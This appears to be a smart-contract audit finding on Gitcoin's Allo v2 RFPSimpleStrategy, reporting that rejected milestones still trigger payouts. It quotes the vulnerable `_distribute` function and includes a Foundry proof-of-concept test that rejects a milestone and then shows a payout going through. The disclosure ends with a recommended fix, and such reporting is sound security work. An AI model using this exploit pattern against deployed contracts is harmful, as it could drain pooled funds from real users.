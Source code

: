 Great Grape Jay

high

# RFPSimpleStrategy - Rejected milestones continue to behave as payable, pending milestones.
## Summary

In [`RFPSimpleStrategy.sol`](), rejected milestones continue to result in payouts even if they have been rejected. This issue occurs because a `Milestone`'s `milestoneStatus` is only ever assigned to, but never actually read back again in the process of validating a payout.

## Vulnerability Detail

The `PoolManager` role is expected to evaluate submitted milestones and determine which (and their corresponding payouts) are accepted on the roadmap. This activity necessitates the ability for `PoolManager`s to reject a milestone - for instances where a proposed milestone is undesirable or even malicious. For example, a milestone could request to command an egregious payout which seeks to drain the entire pool of funds upon acceptance. 

When rejecting a milestone, however, the rejected milestone [still persists inside the array of `milestones`](https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/strategies/rfp-simple/RFPSimpleStrategy.sol#L287) submitted by the `acceptedRecipientId`. It is never deleted. During distribution, milestones are processed consecutively and cannot be modified after the first milestone has been committed to - this allows the rejected milestone to continue to be considered as a payable checkpoint during distribution.

The resulting impact is when a milestone has been rejected, it will continue to be processed and generate payouts in order to satisfy the iteration logic and continue progression onto the accepted milestones. To add insult to injury, the rejected milestone's `milestoneStatus` is then [erroneously overwritten to `Accepted` via a side-effect](https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/strategies/rfp-simple/RFPSimpleStrategy.sol#L442).

## Impact

Any milestone submitted by an `acceptedRecipientId` will be redeemed, even if they have been rejected by a `PoolManager`.

## Code Snippet

The unaltered vulnerable flow is provided below. Remember here, that `milestones[upcomingMilestone]` may have been successfully rejected by the `PoolManager` in a previous transaction:

```solidity
    /// @notice Distribute the upcoming milestone to acceptedRecipientId.
    /// @dev '_sender' must be a pool manager to distribute.
    /// @param _sender The sender of the distribution
    function _distribute(address[] memory, bytes memory, address _sender)
        internal
        virtual
        override
        onlyInactivePool
        onlyPoolManager(_sender)
    {
        // check to make sure there is a pending milestone
        if (upcomingMilestone >= milestones.length) revert INVALID_MILESTONE();

        IAllo.Pool memory pool = allo.getPool(poolId);
        Milestone storage milestone = milestones[upcomingMilestone];
        Recipient memory recipient = _recipients[acceptedRecipientId];

        // make sure has enough funds to distribute based on the proposal bid
        if (recipient.proposalBid > poolAmount) revert NOT_ENOUGH_FUNDS();

        // Calculate the amount to be distributed for the milestone
        uint256 amount = (recipient.proposalBid * milestone.amountPercentage) / 1e18;

        // Get the pool, subtract the amount and transfer to the recipient
        poolAmount -= amount;
        _transferAmount(pool.token, recipient.recipientAddress, amount);

        // Set the milestone status to 'Accepted'
        milestone.milestoneStatus = Status.Accepted;

        // Increment the upcoming milestone
        upcomingMilestone++;

        // Emit events for the milestone and the distribution
        emit MilestoneStatusChanged(upcomingMilestone, Status.Accepted);
        emit Distributed(acceptedRecipientId, recipient.recipientAddress, amount, _sender);
    }
```

Below, we provide an executable proof of concept of this flaw.

This is a combination of [`_register_allocate_submit_distribute`](https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/test/foundry/strategies/RFPSimpleStrategy.t.sol#L530) functionality and [`test_getPayouts`](https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/test/foundry/strategies/RFPSimpleStrategy.t.sol#L141), which together demonstrate successful a payout. In our malicious test, `test_exploit_getPayouts`, we see that even though the milestone has been successfully rejected, the test passes successfully - indicating that it has resulted in a bounty:

```solidity
    function test_exploit_getPayouts() public {
        // begin _register_allocate_submit_distribute
        address recipientId = __register_setMilestones_allocate_submitUpcomingMilestone();
        vm.deal(pool_admin(), 1e19);

        vm.prank(pool_admin());
        allo().fundPool{value: 1e19}(poolId, 1e19);
        // end _register_allocate_submit_distribute

        // begin reject
        vm.prank(pool_admin());
        strategy.rejectMilestone(0);
        RFPSimpleStrategy.Milestone memory milestone = strategy.getMilestone(0);
        assertEq(uint8(milestone.milestoneStatus), uint8(IStrategy.Status.Rejected));
        // end reject

        // begin test_getPayouts
        vm.prank(address(allo()));
        strategy.distribute(new address[](0), "", pool_admin());

        IStrategy.PayoutSummary[] memory payouts = strategy.getPayouts(new address[](0), new bytes[](0));
        assertEq(payouts[0].amount, 1e18);
        assertEq(payouts[0].recipientAddress, recipientAddress());
        // end test_getPayouts
    }
```

## Tool used

Manual Review

## Recommendation

When distributing funds, first validate the `milestoneStatus`. If it is `Rejected`, continue iterating to the next valid milestone in the sequence.
